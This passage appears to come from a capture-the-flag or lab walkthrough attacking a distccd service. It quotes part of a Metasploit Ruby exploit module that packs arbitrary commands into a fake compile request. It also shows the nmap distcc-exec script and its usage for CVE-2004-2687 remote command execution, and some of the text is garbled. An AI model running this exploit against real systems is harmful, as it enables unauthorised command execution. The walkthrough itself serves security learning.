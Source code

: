 ```rb

		return if not len
		if (len > 0)
			res = sock.get_once(len, 5)
			res.split("\n").each do |line|
				print_status("stdout: #{line}")
			end
		end

		handler
		disconnect
	end


	# Generate a distccd command
	def dist_cmd(*args)

		# Convince distccd that this is a compile
		args.concat(%w{# -c main.c -o main.o})

		# Set distcc 'magic fairy dust' and argument count
		res = "DIST00000001" + sprintf("ARGC%.8x", args.length)

		# Set the command arguments
		args.each do |arg|
			res << sprintf("ARGV%.8x%s", arg.length, arg)
		end

		return res
	end

end
```

We get back the following result. I saw References Indicating to there is CVE', '2004-2687. 
Let's go to google search.

After a search, we saw that this service is vulnerable to CVE 2004–2687 and there’s a Nmap script that can be used to exploit this vulnerability and run arbitrary commands on the target machine.

`find /usr/share/nmap/scripts/*dist* -type f 2>/dev/null`

```bash
local nmap = require "nmap"
local match = require "match"
local shortport = require "shortport"
local stdnse = require "stdnse"
local vulns = require "vulns"

description = [[
Detects and exploits a remote code execution vulnerability in the distributed
compiler daemon distcc. The vulnerability was disclosed in 2002, but is still
present in modern implementation due to poor configuration of the service.
]]

---
-- @usage
-- nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
--
-- @output
-- PORT     STATE SERVICE
-- 3632/tcp open  distccd
-- | distcc-exec:
-- |   VULNERABLE:
-- |   distcc Daemon Command Execution
```